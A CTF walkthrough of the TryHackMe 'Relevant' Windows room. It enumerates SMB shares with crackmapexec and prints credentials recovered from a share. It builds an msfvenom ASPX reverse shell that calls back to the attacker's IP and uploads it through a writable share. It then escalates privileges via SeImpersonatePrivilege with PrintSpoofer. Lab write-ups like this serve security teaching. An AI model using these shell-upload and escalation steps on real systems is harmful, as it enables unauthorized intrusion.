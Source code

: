 ```yaml
---
title: TryHackMe - Relevant Room Walkthrough
author: skullhat
date: '2023-06-17 00:34:00 +0800'
categories:
  - thm
  - ctf
tags:
  - windows
  - active_directory
published: true
---
```

## Scope:

- The client has asked that you secure two flags (no location provided) as proof of exploitation:
	- User.txt
	- Root.txt
- Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first  
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope
- Find and report ALL vulnerabilities (yes, there is more than one path to root)

## Basic OS Detection

```bash
ping -c 1 10.10.97.109
PING 10.10.97.109 (10.10.97.109) 56(84) bytes of data.
64 bytes from 10.10.97.109: icmp_seq=1 ttl=127 time=285 ms
```

- Probably a Windows machine.
## Enumeration using `nmap`



## SMB:445
### Null Authentication
- Try null authentication, but getting nothing. Based on nmap output the `gust` account can access the shares.

```bash
crackmapexec smb 10.10.97.109 -u "" -p "" --shares
```

- When trying `gust` has juicy folder called nt4wrksv with read and write permissions.

```bash
crackmapexec smb 10.10.97.109 -u "gust" -p "" --shares

```
![[Pasted image 20230614185247.png]]

- Found `passowrds.txt` then create smb directory and move it there.

```bash
crackmapexec smb 10.10.176.144 -u "gust" -p "" -M spider_plus
smbclient //10.10.176.144/nt4wrksv -U ""
```


```passowrd.txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
Bob:!P@$$W0rD!123
Bill:Juw4nnaM4n420696969!$$$                                              
```

### SMB relay
- From nmap and cme the SMB signing is disable, so smb relay may work.
- Can not perform smb relay.

## Getting a shell

1. Try bill account on `evil-winrm` and can not access. Also try on RDP and failed. So it must be fake!
2. found that port 49663 has also a web server and run `gobsuter` to enumerate directories and found one with same `smb` share name! 
- http://10.10.247.115:49663/nt4wrksv/shell.aspx

```bash

msfvenom -p windows/x64/shell_reverse_tcp LPORT=9001 LHOST=10.9.78.51  -f aspx -o shell.aspx 

smbclient //10.10.247.115/nt4wrksv -U 'bob'
smb: \> put shell.aspx

sudo rlwrap nc -lnvp 9001
```

## Local Enumeration 

```powershell

whoami /all

systeminfo

```
![[Pasted image 20230614214734.png]]

## PrivEsc

- We found `SeImpersonatePrivilage` so we can run [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0) which is Abusing Impersonation Privileges From LOCAL/NETWORK SERVICE to SYSTEM by abusing SeImpersonatePrivilege on Windows 10 and Server 2016/2019.

![[Pasted image 20230614224001.png]]

- Potatoes attack is detected by the AV.
- There is a problem in kali preventing me performing Etrnalblue MS17-010
